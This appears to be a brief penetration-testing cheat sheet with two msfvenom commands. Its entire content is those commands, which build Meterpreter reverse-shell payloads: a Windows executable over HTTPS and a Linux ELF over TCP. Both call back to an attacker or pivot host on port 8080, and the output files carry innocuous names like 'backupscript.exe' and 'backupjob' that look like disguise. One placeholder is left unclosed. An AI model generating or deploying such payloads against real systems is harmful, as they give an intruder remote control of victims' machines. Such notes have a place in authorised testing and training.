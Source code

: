 # msfvenom

% payload

## msfvenom - Generate reverse HTTPS payload
```
msfvenom -p windows/x64/meterpreter/reverse_https lhost= <InteralIPofPivotHost> -f exe -o backupscript.exe LPORT=8080
```
## msfvenom - Generate reverse TCP payload
```
msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=<IPaddressofAttackHost -f elf -o backupjob LPORT=8080
```

